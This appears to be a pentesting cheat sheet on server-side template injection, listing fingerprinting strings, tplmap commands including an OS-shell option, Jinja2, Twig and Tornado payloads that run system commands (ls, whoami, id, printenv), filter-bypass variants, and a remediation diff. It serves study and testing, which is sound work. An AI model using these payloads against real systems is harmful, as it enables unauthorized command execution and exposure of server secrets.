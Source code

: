 # Server-Side Template Injection (SSTI)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssti_server_side_template_injection](../../../../_badges/hacktricks/pentesting_web/ssti_server_side_template_injection.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/)
[![ssti](../../../../_badges/poat/ssti.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
[![java_ssti](../../../../_badges/rootme/web_server/java_ssti.svg)](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection)

<div class="row row-cols-lg-2"><div>

Server-Side Template Injection occurs when we can inject code that is parsed by a template engine such as [Jinja2](/programming-languages/web/topics/templating/jinja2/index.md) in Python.

You may be able to guess the template engine used from the web server, for instance, if it's Python then it's most likely Jinja.

To guess the template engine, we can try every token (`${{<%[%'"}}%\`) with expressions such as `7*7` or `7*'7'` and look for the output/errors.

* [Port Swigger SSTI Decision Tree](https://portswigger.net/web-security/images/template-decision-tree.png)
* [Template Injection Table](https://cheatsheet.hackmanit.de/template-injection-table/)
</div><div>

There are a few tools you might use:

* [TInjA](https://github.com/Hackmanit/TInjA) <small>(0.2k ⭐)</small>
* [sstimap](https://github.com/vladko312/sstimap) <small>(0.6k ⭐)</small>
* [tplmap](https://github.com/epinna/tplmap) <small>(3.6k ⭐, 2022 🪦)</small>

```ps
$ tplmap -u 'http://example.com:80/*'
$ tplmap -u 'http://example.com:80' -d 'xxx=yyy'
$ tplmap -u 'http://example.com:80' -d 'xxx=yyy' --os-shell
```
</div></div>

<hr class="sep-both">

## Jinja2 Template Engine — Python

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![jinja2_ssti](../../../../_badges/hacktricks/pentesting_web/ssti_server_side_template_injection/jinja2_ssti.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)
[![django_unchained](../../../../../cybersecurity/_badges/rootme/realist/django_unchained.svg)](https://www.root-me.org/en/Challenges/Realist/Django-unchained)
[![djangocatz](../../../../../cybersecurity/_badges/rootme/realist/djangocatz.svg)](https://www.root-me.org/en/Challenges/Realist/DjangocatZ)

<div class="row row-cols-lg-2"><div>

#### Jinja2 SSTI — PoC

Refer to [JinJa2 Notes](/programming-languages/web/topics/templating/jinja2/index.md) if needed.

* Basic Fingerprint PoC: `{{ "PoC" }}` then `{{ "PoC"|e }}`
* Test for instructions: `{% debug %}` and `{% print("PoC") %}`

Try to print the context `{{ self._TemplateReference__context }}`. It's always available unless filtered. It will list which objects are available.

* `self`: a Python object
* `range`: a Python object
* `dict`: a Python object
* `cycler`: a Python object
* `lipsum`: a Python function
* `joiner`: a Python object
* `namespace`: a Python object
* `config`: a Python object
* `request`: a Python object available in Flask render functions

#### Jinja2 SSTI — Local Testing

If we don't care about XSS, the shortest code to test is:

```py
from jinja2 import Template
template = Template("""{{ self }}""")
output = template.render()
print(output)
```

If we need to consider XSS, which is the default with Flask, use:

```py
from jinja2 import Environment, select_autoescape
env = Environment(autoescape=select_autoescape(['html', 'xml']))
template = env.from_string("""{{ self }}""")
output = template.render()
print(output)
```

Finally, if we need to test a sandbox environment, e.g. where `self` is empty and only some classes/attributes are allowed:

```py
# Extend sandbox.SandboxedEnvironment to allow attributes
from jinja2 import select_autoescape, DictLoader, sandbox
template_string = """{{ self.__dict__ }}"""
env = sandbox.SandboxedEnvironment(
    loader=DictLoader({'dummy_template': template_string}),
    autoescape=select_autoescape(['html', 'xml'])
)
env.globals = {} # add stuff here
template = env.get_template('dummy_template')
output = template.render()
print(output)
```
</div><div>

#### Jinja2 SSTI — Modern payloads

Old payloads were using introspection from `()` or `""` ([ref](https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/)).

```js!
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler.__init__.__globals__.os.popen("ls -1a").read() }}
{{ lipsum.__globals__.os.popen('ls -1a').read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').system('ls') }}
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -1a').read() }}
```

#### Jinja2 SSTI — Filter Bypass

[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)
[![djangocatz](../../../../../cybersecurity/_badges/rootme/realist/djangocatz.svg)](https://www.root-me.org/en/Challenges/Realist/DjangocatZ)

Refer to my [Python Cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#python) and this summary:

```js!
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler['__init__']['__globals__']['os']['system']('whoami') }}
{{ cycler|attr('__init__')|attr('__globals__')|attr('get')('os')|attr('system')('ls') }}
{{ cycler|attr('__in'+'it__')|[...] }}
{{ cycler|attr('__in'~'it__')|[...] }}
{{ cycler|attr(('@@in'~'it@@'|replace("@", "\u005F")))|[...] }}
{{ lipsum['__builtins__'].__import__('os').system('whoami') }}
{{ iamnotfiltered.__init__.__globals__.__builtins__.__import__('os').system('whoami') }}
```

One thing of importance is that Jinja support a property access syntax with `[]` even for objects such as `os` which natively don't support it.

```js!
{{ cycler['__init__'] }}
{{ self['__dict__'] }}
{{ some_payload.__import__('os')['system'] }}
```

#### Jinja2 SSTI — Remediation

Never inject untrusted input in your template before rendering them. Always pass the input as parameters as intended.

```diff
-with open('templates/xxx.html') as f:
-    template = f.read()
-template = template.replace("{{ param1 }}", value1)
-template = template.replace("{{ param2 }}", value2)
-return render_template_string(template)
+return render_template('xxx.html', param1=value1, param2=value2)
```

Flask automatically escape all parameters by default. Otherwise, Jinja default mode requires you to escape all dangerous parameters to avoid XSS. Replace `{{ param1 }}` with `{{ param1|e }}`.

Using the automatic mode is less performant but easier. When using it, you may mark safe parameters as safe with `{{ param3|safe }}`.
</div></div>

<hr class="sep-both">

## Well-Known Template Engines

<div class="row row-cols-lg-2"><div>

#### Twig Template Engine — PHP

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)

Link to the [official documentation](https://twig.symfony.com/documentation). [GitHub](https://github.com/twigphp/Twig) <small>(8.0k ⭐)</small>.

* Basic Fingerprint PoC: `{{_self}}`, `{{_self.env}}`
* Random payloads:

```js!
{{_self.env.display("TEST")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname;printenv")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id;uname -a;hostname;printenv")}}
```

📚 Both `exec` and `system` are PHP functions.
</div><div>

#### Apache Velocity Template Engine — Java

Link to the [official documentation](https://velocity.apache.org/).

* Basic PoC: `#set($s=7+7) $s`

<br>

#### Tornado Web Framework Templates — Python

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)

Link to the template section of the [official documentation](https://www.tornadoweb.org/en/stable/guide/templates.html).

```js!
{% import os %}{{os.popen('whoami').read()}}
```
</div></div>